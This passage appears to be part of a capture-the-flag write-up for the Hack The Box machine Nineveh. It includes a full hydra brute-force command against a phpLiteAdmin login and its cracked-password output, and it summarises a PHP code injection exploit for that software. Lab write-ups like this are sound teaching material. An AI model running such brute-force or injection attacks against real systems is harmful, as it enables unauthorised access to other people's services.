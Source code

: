 The **/secure\_notes** directory gives us the following image.

![](https://miro.medium.com/max/1147/1*okFaCLGQrlJiy91DsIw-kw.png)

This might be what the comment “check your secret folder” was referring to. Save the image, it might have a secret stored in it. We’ll look into that later.

The **/db** directory leads us to the following page.

![](https://miro.medium.com/max/878/1*0AaLl1jKv813LZRQRhst3w.png)

I tried the default password “admin” for phpLiteAdmin v1.9 but that did not work. Let’s try brute-forcing the password. First, intercept the request in Burp.

![](https://miro.medium.com/max/779/1*n7CfvKcuwwRCvVQjsYU0pA.png)

Then run hydra on the login form.

```text
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."
```

* **-l:** specifies the username to be admin.
* **-P:** specifies the file that contains the passwords.
* **http-post-form:** we’re sending a POST request.
* **“….”:** the content in the double quotes specifies the username/password parameters to be tested and the failed login message.

We get back the following result.

```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-28 11:12:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password.
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-28 11:13:53
```

We got a valid password! Use password123 to log into the application. Since this is an off the shelf application, let’s use searchsploit to find out if it is associated with any vulnerabilities.

```text
searchsploit phpLiteAdmin 1.9
```

We get back the following result.

![](https://miro.medium.com/max/1316/1*JyUuvNiR8gXa8ZcDsDE3aA.png)

Let’s view the content of the Remote PHP Code Injection exploit. According to the comments made in the[ exploit](https://www.exploit-db.com/exploits/24044), an attacker can create a sqlite database with a php extension and insert php code as text fields. When done, the attacker can execute it simply by accessing the database file using the browser.
